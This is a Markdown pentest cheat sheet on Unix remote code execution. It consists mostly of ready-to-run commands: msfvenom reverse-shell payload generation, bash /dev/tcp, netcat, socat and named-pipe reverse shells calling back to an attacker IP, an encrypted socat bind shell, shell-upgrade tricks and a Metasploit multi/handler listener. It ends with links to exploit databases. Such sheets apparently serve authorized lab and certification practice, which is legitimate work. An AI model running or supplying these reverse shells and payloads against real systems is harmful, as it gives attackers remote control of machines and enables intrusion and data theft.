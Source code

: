 # Unix Remote Code Execution

## msfvenom

Shell File

``` bash
msfvenom -p linux/x86/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf > shell.elf
```

Java Code

``` bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f war > shell.war
```

Shell Code

``` bash
msfvenom -p linux/x86/shell_reverse_tcp LHOST=<ip> LPORT=443 EXITFUNC=thread  -f c –e x86/shikata_ga_nai -b "<badchars>"
```

Encoders

``` bash
msfvenom  --list encoders
```

## Bash Reverse Shell

> Don't forget to check with others shell : sh, ash, bsh, csh, ksh, zsh, pdksh, tcsh, bash

``` bash
/bin/sh -c 'sh -i >& /dev/tcp/myip/443 0>&1'
```

``` bash
/bin/bash -c 'bash -i >& /dev/tcp/myip/443 0>&1'
```

``` bash
/bin/sh -c '0<&60-;exec 60<>/dev/tcp/myip/443;sh <&60 >&60 2>&60'
```

## Netcat Reverse Shell

Kali machine

``` bash
sudo nc -nlvp 443
```

Unix machine

``` bash
nc -nv 192.168.11.130 443 -e /bin/sh
```

> Netcat OpenBsd

```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc myip 443 >/tmp/f
```

> Netcat BusyBox

```
rm /tmp/f;mknod /tmp/f p;cat /tmp/f|/bin/sh -i 2>&1|nc myip 443 >/tmp/f
```

## Socat Reverse Shell

Kali machine

``` bash
socat -d -d TCP4-LISTEN:443 STDOUT
```

Unix machine

``` bash
socat TCP4:192.168.11.130:443 EXEC:/bin/sh
```

## Socat Encrypted Bind Shell

Create credential

``` bash
openssl req -newkey rsa:2048 -nodes -keyout bind_shell.key -x509 -days 999 -out bind_shell.crt
cat bind_shell.key bind_shell.crt > bind_shell.pem
```

Unix machine

``` bash
socat OPENSSL-LISTEN:443,cert=bind_shell.pem,verify=0,fork EXEC:/bin/sh
```

Kali machine

``` bash
sudo socat OPENSSL:192.168.11.130:443,verify=0
```

## Nmap NSE Scripts Exploit

``` bash
cd /usr/share/nmap/scripts
grep Exploits *.nse
nmap --script-help=clamav-exec.nse
```

## Upgrade shell

``` bash
/usr/bin/python -c "import pty; pty.spawn('/bin/bash')"
export TERM=xterm
```

^Z

``` bash
stty raw -echo; fg
```

``` bash
stty -a
```

``` bash
stty rows 41 columns 172
```

## msfconsole multi handler

``` bash
sudo msfconsole -x "use exploit/multi/handler; set RHOST ip; set PAYLOAD windows/shell_reverse_tcp; set LHOST tun0; exploit"
```

``` bash
processing AutoRunScript 'post/windows/manage/migrate'
```

## <a href='https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md' target="blank">PayloadsAllTheThings</a>

## Exploit Resources

=== "Online"

	[Exploit Database]( https://www.exploit-db.com)

	[SecurityFocus]( https://www.securityfocus.com)

	[Packet Storm](https://packetstormsecurity.com)

	[Reverse Shell Cheatsheet](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)

=== "Offline"

	SearchSploit

	Metasploit Framework

	BeEF